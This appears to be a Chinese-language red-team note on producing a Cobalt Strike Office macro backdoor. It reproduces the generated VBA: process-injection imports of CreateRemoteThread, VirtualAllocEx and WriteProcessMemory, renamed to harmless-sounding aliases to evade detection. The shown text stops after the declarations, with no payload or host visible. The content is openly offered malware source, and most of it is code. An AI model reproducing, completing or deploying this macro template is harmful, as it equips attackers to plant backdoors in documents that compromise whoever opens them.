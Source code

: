 Attacks --> Packages --> MS offices Macro

<img src=".\图片\Snipaste_2023-01-02_19-07-44.png" alt="Snipaste_2023-01-02_19-07-44" style="zoom: 67%;" />

以下为 cs 生成的宏后门代码

```
Private Type PROCESS_INFORMATION
    hProcess As Long
    hThread As Long
    dwProcessId As Long
    dwThreadId As Long
End Type

Private Type STARTUPINFO
    cb As Long
    lpReserved As String
    lpDesktop As String
    lpTitle As String
    dwX As Long
    dwY As Long
    dwXSize As Long
    dwYSize As Long
    dwXCountChars As Long
    dwYCountChars As Long
    dwFillAttribute As Long
    dwFlags As Long
    wShowWindow As Integer
    cbReserved2 As Integer
    lpReserved2 As Long
    hStdInput As Long
    hStdOutput As Long
    hStdError As Long
End Type

#If VBA7 Then
    Private Declare PtrSafe Function CreateStuff Lib "kernel32" Alias "CreateRemoteThread" (ByVal hProcess As Long, ByVal lpThreadAttributes As Long, ByVal dwStackSize As Long, ByVal lpStartAddress As LongPtr, lpParameter As Long, ByVal dwCreationFlags As Long, lpThreadID As Long) As LongPtr
    Private Declare PtrSafe Function AllocStuff Lib "kernel32" Alias "VirtualAllocEx" (ByVal hProcess As Long, ByVal lpAddr As Long, ByVal lSize As Long, ByVal flAllocationType As Long, ByVal flProtect As Long) As LongPtr
    Private Declare PtrSafe Function WriteStuff Lib "kernel32" Alias "WriteProcessMemory" (ByVal hProcess As Long, ByVal lDest As LongPtr, ByRef Source As Any, ByVal Length As Long, ByVal LengthWrote As LongPtr) As LongPtr
```